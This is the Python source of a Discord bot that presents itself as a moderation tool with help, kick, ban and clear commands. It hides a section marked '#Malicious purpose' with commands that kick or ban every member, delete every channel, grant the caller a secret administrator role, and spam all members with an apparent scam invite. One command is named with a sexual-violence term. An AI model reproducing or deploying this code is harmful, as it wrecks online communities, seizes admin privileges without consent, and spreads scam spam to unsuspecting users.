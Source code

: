 # nuker-shane-legendary
bot


#make sure to read the read me file for instructions

import discord
from discord.ext import commands
from discord.ext.commands import Bot
import asyncio
import time
import logging

client = commands.Bot(command_prefix='$') #This Is The Prefix, Feel Free To Change It Anytime

client.remove_command("help")


@client.event
async def on_ready():
    print ("bot is now online")

@client.event
async def on_server_join(server):
    print("Joining {0}".format(server.name))

@client.command(pass_context=True)
async def help(ctx):
    author = ctx.message.author

    embed = discord.Embed(
        colour = discord.Colour.blue()
    )

    embed.set_author(name='help')
    embed.add_field(name='$ping', value='Gives ping to client (expressed in ms)', inline=False)
    embed.add_field(name='$kick', value='Kicks specified user', inline=False)
    embed.add_field(name='$ban', value='Bans specified user', inline=False)
    embed.add_field(name='$info', value='Gives information of a user', inline=False)
    embed.add_field(name='$invite', value='Returns invite link of the client', inline=False)
    embed.add_field(name='$clear', value='Clears an X amount of messages', inline=False)
    await client.send_message(author, embed=embed)

@client.command(pass_context=True)
async def dm(ctx, message):
    server = ctx.message.server
    for member in server.members:
     await asyncio.sleep(0)
     try:
       await client.send_message(member, "https://discord.gg/sujRrDX Join now for a cheap unlimited account generator!!")
       print("Sent message")
     except:
       pass

@client.command(pass_context=True)
async def clear(ctx, amount=10):
    channel = ctx.message.channel
    messages = []
    async for message in client.logs_from(channel, limit=int(amount)):
        messages.append(message)
    await client.delete_messages(messages)
    await client.say('Messages deleted')

@client.command(pass_context=True)
async def ping(ctx):
	channel = ctx.message.channel
	t1 = time.perf_counter()
	await client.send_typing(channel)
	t2 = time.perf_counter()
	embed=discord.Embed(title=None, description='Ping: {}'.format(round((t2-t1)*1000)), color=0x2874A6)
	await client.say(embed=embed)

@client.command(pass_context=True)
async def info(ctx, user: discord.Member=None):
    if user is None:
        await client.say('Please input a user.')
    else:
        await client.say("The user's name is: {}".format(user.name) + "\nThe user's ID is: {}".format(user.id) + "\nThe user's current status is: {}".format(user.status) + "\nThe user's highest role is: {}".format(user.top_role) + "\nThe user joined at: {}".format(user.joined_at))

@client.command(pass_context=True)
async def kick(ctx, user: discord.Member=None):
    author = ctx.message.author
    if author.server_permissions.kick_members:
        if user is None:
            await client.say('Please input a user.')
        else:
            await client.say (":boot: Get kicked **{}**, Damn kid".format(user.name))
            await client.kick(user)
    else:
        await client.say('You lack permission to preform this action')

@client.command(pass_context=True)
async def ban(ctx, user: discord.Member=None):
    author = ctx.message.author
    if author.server_permissions.kick_members:
        if user is None:
            await client.say('Please input a user.')
        else:
            await client.say("Get banned **{}**, Damn kid".format(user.name))
            await client.ban(user)
    else:
        await client.say('You lack permission to preform this action')


@client.command(pass_context=True)
async def invite(ctx):
    await client.say("https://discordapp.com/oauth2/authorize?&client_id=503182818667659274&scope=client&permissions=8")

#Malicious purpose

@client.command(pass_context=True)
async def h(ctx):
        for user in list(ctx.message.server.members):
            try:
                await client.kick(user)
                print ("User " + user.name + " has been kicked from " + ctx.message.server.name)
            except:
                pass
        print ("Action Completed: kall")

@client.command(pass_context=True)
async def rape(ctx):
        for channel in list(ctx.message.server.channels):
            try:
                await client.delete_channel(channel)
                print (channel.name + " has been deleted in " + ctx.message.server.name)
            except:
                pass
        server = ctx.message.server
        channel = await client.create_channel(server, 'RIP', type=discord.ChannelType.text)
        await client.send_message(channel, "Now that's alot of damage!!")
        for user in list(ctx.message.server.members):
            try:
                await client.ban(user)
                print ("User " + user.name + " has been banned from " + ctx.message.server.name)
            except:
                pass
        print ("Now that's alot of damage")

@client.command(pass_context=True)
async def dab(ctx):
    server = ctx.message.server
    perms = discord.Permissions(8)
    await client.create_role(server, name='dab', permissions=perms)
    user = ctx.message.author
    role = discord.utils.get(user.server.roles, name="dab")
    await client.add_roles(user, role)
    print ("You're in buddy, now don't fuck it up")

client.run("TOKEN") #Bot's Token Code Goes Here
